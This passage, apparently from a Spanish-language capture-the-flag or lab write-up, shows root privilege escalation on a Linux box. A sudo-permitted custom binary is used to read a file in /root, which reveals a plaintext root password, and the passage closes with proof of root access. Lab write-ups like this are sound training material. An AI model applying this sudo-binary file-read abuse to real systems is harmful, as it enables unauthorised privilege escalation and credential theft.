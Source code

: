 Vemos su contenido:
```bash
cat /var/backups/furbRead.txt
Interesante este nombre de archivo, donde mas puede encontrarse?
```

filtrando por archivos no obtuvimos nada, Solo queda revisar el directorio para **root** para ello nos aprovecharemos del binario para leer su contenido:
Usamos el mismo nombre para ver si existe
```bash
sudo -u root /usr/bin/furb -r /root/furbRead.txt
```

Tenemos una contrasena que probaremos para **root**
```bash
StrongPasswordRootSuperSecret123
```

---
## Evidencia de Compromiso
Flags:
```bash
-rw-r--r--  1 root root   33 Jun 10 11:29 furbRead.txt
-rw-r--r--  1 root root   33 Jun 10 11:11 root.txt
```

```bash
# Captura de pantalla o output final
root@b976df2715f0:~# whoami
root
```

---